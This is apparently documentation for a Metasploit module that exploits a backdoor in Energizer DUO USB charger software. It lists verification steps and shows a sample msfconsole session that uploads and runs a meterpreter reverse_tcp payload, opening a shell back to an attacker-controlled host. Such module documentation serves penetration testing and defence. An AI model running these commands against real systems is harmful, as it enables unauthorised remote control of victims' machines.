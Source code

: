 ## Vulnerable Application

More information can be found on the [Rapid7 Blog](https://community.rapid7.com/community/metasploit/blog/2010/03/08/locate-and-exploit-the-energizer-trojan).
Energizer's "DUO" USB Battery Charger included a backdoor which listens on port 7777.

The software can be downloaded from the [Wayback Machine](http://web.archive.org/web/20080722134654/www.energizer.com/usbcharger/language/english/download.aspx).

## Verification Steps

  1. Install the vulnerable software
  2. Start msfconsole
  3. Do: `use exploit/windows/backdoor/energizer_duo_payload`
  4. Do: `set rhost`
  5. Do: `set payload`
  6. Do: `exploit`

## Scenarios

  A run against the backdoor

  ```
    msf > use exploit/windows/backdoor/energizer_duo_payload
    msf exploit(energizer_duo_payload) > set RHOST 192.168.0.132
    msf exploit(energizer_duo_payload) > set PAYLOAD windows/meterpreter/reverse_tcp
    msf exploit(energizer_duo_payload) > set LHOST 192.168.0.228
    msf exploit(energizer_duo_payload) > exploit
    
    [*] Started reverse handler on 192.168.0.228:4444
    [*] Trying to upload C:\NTL0ZTL4DhVL.exe...
    [*] Trying to execute C:\NTL0ZTL4DhVL.exe...
    [*] Sending stage (747008 bytes)
    [*] Meterpreter session 1 opened (192.168.0.228:4444 -> 192.168.0.132:1200)
    
    meterpreter > getuid
    Server username: XPDEV\Developer
  ```
